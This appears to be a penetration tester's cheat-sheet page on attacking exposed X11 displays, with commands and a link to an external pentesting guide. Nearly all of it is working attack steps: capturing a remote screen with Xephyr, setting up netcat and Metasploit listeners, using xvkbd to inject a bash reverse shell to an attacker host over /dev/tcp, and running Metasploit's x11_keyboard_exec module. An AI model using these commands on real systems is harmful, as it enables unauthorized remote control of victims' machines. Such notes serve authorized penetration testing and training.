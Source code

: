 # X11

## 01 - Manual

### 1.1 - Remote Screen

```
$ Xephyr -from <attacker_IP> -query <target_IP> -screen 800x600 :1
```

### 1.2 - Shell Callback

Launch a shell handler.

```
$ nc -lnvp <attacker_PORT>

$ sudo msfconsole -qx "use exploit/multi/handler; set payload cmd/unix/reverse_bash; set lhost <attacker_IP>; set lport <attacker_PORT>; run"
```

Execute the command with one-liner shell.

```
$ xvkbd -no-repeat -no-sync -no-jump-pointer -remote-display <target_IP>:1 -text "/bin/bash -i > /dev/tcp/<attacker_IP>/<attacker_PORT> <&1 2>&1\r"
```

## 02 - Metasploit

```
msf > use exploit/unix/x11/x11_keyboard_exec

msf exploit(unix/x11/x11_keyboard_exec) > set payload linux/x64/metepreter/reverse_tcp

msf exploit(unix/x11/x11_keyboard_exec) > options

msf exploit(unix/x11/x11_keyboard_exec) > set rhost <target_IP>

msf exploit(unix/x11/x11_keyboard_exec) > set lhost <attacker_IP>

msf exploit(unix/x11/x11_keyboard_exec) > set lport <attacker_PORT>

msf exploit(unix/x11/x11_keyboard_exec) > set time_wait 10

msf exploit(unix/x11/x11_keyboard_exec) > run
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/B - Vulnerability Assessment/03 - Network Ports/Remote Services/X11|Vulnerability Assessment: Remote Services - X11]]

### Bordergate

- [Bordergate: Pentesting X11](https://www.bordergate.co.uk/pentesting-x11/)